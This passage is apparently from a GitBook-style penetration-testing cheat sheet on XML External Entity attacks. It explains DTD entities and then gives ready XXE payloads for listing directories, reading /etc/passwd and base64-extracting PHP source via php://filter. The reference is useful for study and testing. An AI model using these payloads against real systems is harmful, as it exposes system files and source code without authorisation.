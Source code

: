 </div>

Within DTDs we can define **entities** (XML variables) using the `ENTITY` keyword. We can define them either **internally** (followed by the entity name and its value) or **externally** (followed by the `SYSTEM` keyword and its path).

```xml
<!-- Internal Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender "x7331">
]>

<!-- External Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender SYSTEM "http://example.com/note.txt">
]>
```

We can then expand them the same way.

```xml
<name>&sender;</name>
```

### Common Attacks

{% tabs %}
{% tab title="Directory Listing" %}
```xml
# This works in certain Java web applications
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/">
]>
```
{% endtab %}

{% tab title="LFI" %}
```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```
{% endtab %}

{% tab title="Source Code Exfil" %}
{% code overflow="wrap" %}
```xml
<!DOCTYPE test [
<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
{% endcode %}
{% endtab %}
